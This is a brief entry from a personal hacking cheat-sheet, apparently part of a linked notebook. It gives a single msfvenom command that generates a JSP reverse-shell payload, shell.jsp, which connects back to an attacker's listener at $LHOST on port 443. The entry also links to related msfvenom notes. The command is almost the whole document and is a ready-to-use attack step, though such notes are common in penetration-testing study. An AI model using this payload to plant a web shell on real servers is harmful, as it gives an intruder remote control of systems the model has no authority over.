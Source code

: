 # MSFVENOM Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

# Related
- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- [20221003150759](/zet/20221003150759/README.md) MSFVENOM Java Server Pages (.jsp) As .war
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
